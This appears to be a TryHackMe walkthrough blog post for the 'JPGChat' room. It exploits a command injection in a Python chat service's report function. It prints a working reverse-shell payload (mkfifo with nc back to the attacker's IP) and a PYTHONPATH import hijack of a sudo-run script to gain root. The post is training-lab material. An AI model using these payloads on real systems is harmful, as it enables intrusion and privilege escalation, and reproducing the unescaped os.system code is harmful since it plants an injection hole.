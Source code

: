 ```yaml
---
layout: post
title: TryHackMe Walkthrough - JPGChat
date: 2021-06-26
type: post
tags:
- Walkthrough
- Hacking
- TryHackMe
- Easy
permalink: /2021/06/JPGChat
img: 2021/06/JPGChat/JPGChat.png
---
```


This is an easy room where we need to find the code of a chat application to exploit it. And then use sudo to gain root access.

* Room: JPGChat
* Difficulty: Easy
* URL: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)
* Author: [R4v3n](https://tryhackme.com/p/R4v3n)

```
Exploiting poorly made custom chatting service written in a certain language...
```

## Enumeration

I first launched RustScan to look for opened ports on the target machine.

```bash
$ rustscan -a target -- -A -script vuln | tee rust.txt
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/ehogue/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.175.99:22
Open 10.10.175.99:3000
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
```

Port 22 (SSH) is opened. And port 3000. This is not a standard port so I looked at what's on it. 

## Chat Application

I tried to connect to port 3000 with Telnet. It gave me the prompt of the application, but I got disconnected every times I sent something. So I switched to Netcat. And it worked better.

```bash
$ nc target 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]: Hello
[MESSAGE]: 
```

The application allow us to send messages or to report someone to the admins.

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
Eric
your report:
aaaa
[MESSAGE]:
```

The report function request a name and the report, but does not give any feedback. 

Part of the welcome message caught my attention.

```
the source code of this service can be found at our admin's github
```

I searched for 'jpchat source code' and found the [GitHub page with the code](https://github.com/Mozzie-jpg/JPChat). I had to be careful, because the first result was for a writeup of the room and I didn't want any spoilers.

The `report_form()` function is the one that is vulnerable to code injection.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

It takes whatever I send and insert it into a bash command to echo it and insert it in a file. It does not escape anything. So I could use it to run any command I wanted. 

I tried running a simple command to confirm I could exploit it.

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami ; '
your report:
a

wes
[MESSAGE]:
```

Now that I knew how to send commands, I used it to open a reverse shell to my machine. I started a Netcat listener, then sent a report with the reverse shell code. 

```bash
[MESSAGE]: [REPORT]
this report will be read by Mozzie-jpg
your name:
'; mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg ; echo 'a
your report:
a

```

The waiting listener got the connection.

```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.99 39028
whoami
wes
```

I immediately solidified my shell. 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
```

Next I could read the user flag.

```bash
wes@ubuntu-xenial:/$ pwd
/
wes@ubuntu-xenial:/$ cd
wes@ubuntu-xenial:~$ ls
user.txt
wes@ubuntu-xenial:~$ cat user.txt 
REDACTED
wes@ubuntu-xenial:~$ 
```

## Escalation

Now that I was in the machine, I needed a way to get root access. First thing I always try is to see if the user can run sudo. 

```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

They can run a python script as root. 

```bash
wes@ubuntu-xenial:~$ ls -la /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15 18:58 /opt/development/test_module.py
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
True
```

I couldn't modify the script it ran. But it imports functions from compare, and I can modify the environment variables. I created a file called `compare.py` in wes home folder, then called the script passing it this folder in the PYTHONPATH environment variable. This way, when the script tried to import compare, it will read my file and execute my code.

```bash
wes@ubuntu-xenial:~$ cat compare.py 
#!/usr/bin/env python3
import pty; 
pty.spawn("/bin/bash")

wes@ubuntu-xenial:~$ chmod +x compare.py

wes@ubuntu-xenial:~$ PYTHONPATH=/home/wes sudo /usr/bin/python3 /opt/development/test_module.py

root@ubuntu-xenial:~# whoami
root

root@ubuntu-xenial:~# cat /root/root.txt 
REDACTED

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```

This room was really easy. I was not expected to root it so fast. But it was still fun. I enjoyed attacking something that was not a web application.

